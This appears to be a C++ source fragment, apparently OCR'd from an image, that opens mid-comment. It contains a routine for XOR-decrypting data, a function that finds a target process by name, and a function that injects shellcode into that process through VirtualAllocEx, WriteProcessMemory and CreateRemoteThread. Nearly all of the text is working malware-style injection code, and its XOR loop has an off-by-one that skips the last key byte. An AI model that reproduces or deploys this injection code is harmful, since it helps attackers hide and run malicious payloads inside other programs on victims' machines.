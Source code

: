 ```cpp
		*/

	}
}

void XOR(char * encrypted_data, size_t data_length, char * key, size_t key_length) {

	int key_index = 0;
	for (int i = 0; i < data_length; i++) {
		if (key_index == key_length - 1) key_index = 0;
		encrypted_data[i] = encrypted_data[i] ^ key[key_index];
		key_index++;
	}
}

int SearchForProcess(const char *processName) {

	HANDLE hSnapshotOfProcesses;
	PROCESSENTRY32 processStruct;
	int pid = 0;

	hSnapshotOfProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hSnapshotOfProcesses) return 0;

	processStruct.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(hSnapshotOfProcesses, &processStruct)) {
		CloseHandle(hSnapshotOfProcesses);
		return 0;
	}

	while (Process32Next(hSnapshotOfProcesses, &processStruct)) {
		if (lstrcmpiA(processName, processStruct.szExeFile) == 0) {
			pid = processStruct.th32ProcessID;
			break;
		}
	}

	CloseHandle(hSnapshotOfProcesses);

	return pid;
}

int ShellcodeInject(HANDLE hProcess, unsigned char * shellcodePayload, unsigned int lengthOfShellcodePayload) {

	LPVOID pRemoteProcAllocMem = NULL;
	HANDLE hThread = NULL;
	pRemoteProcAllocMem = VirtualAllocEx(hProcess, NULL, lengthOfShellcodePayload, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProcess, pRemoteProcAllocMem, (PVOID)shellcodePayload, (SIZE_T)lengthOfShellcodePayload, (SIZE_T *)NULL);

	hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteProcAllocMem, NULL, 0, NULL);

	if (hThread != NULL) {
		WaitForSingleObject(hThread, 500);
		CloseHandle(hThread);
		return 0;
	}
	return -1;
}
```